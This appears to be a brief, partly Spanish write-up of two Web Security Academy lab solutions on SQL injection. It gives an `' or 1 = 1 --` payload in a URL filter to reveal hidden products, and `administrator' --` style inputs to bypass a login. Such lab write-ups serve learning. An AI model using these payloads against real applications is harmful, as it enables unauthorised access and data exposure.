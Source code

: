 ##  Retrieving hidden data

###  Lab1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
  
  
```http
https://ac701fd11eeda548806db59400ab002f.web-security-academy.net/filter?category=Gifts' or 1 = 1 --
```
  
##  Subverting application logic
  
  
###  Lab2: SQL injection vulnerability allowing login bypass
  
  
![sql2.png](sql2.png )
  
####  1 forma
  
  
username: `administrator' --`
  
password: `cualquier cosa por que este será interpretado como comentario pero requiere de algun texto para poder ser validado`
  
####  Otra forma sería:
  
  
username: `administrator' or 1 = 1 --` 
  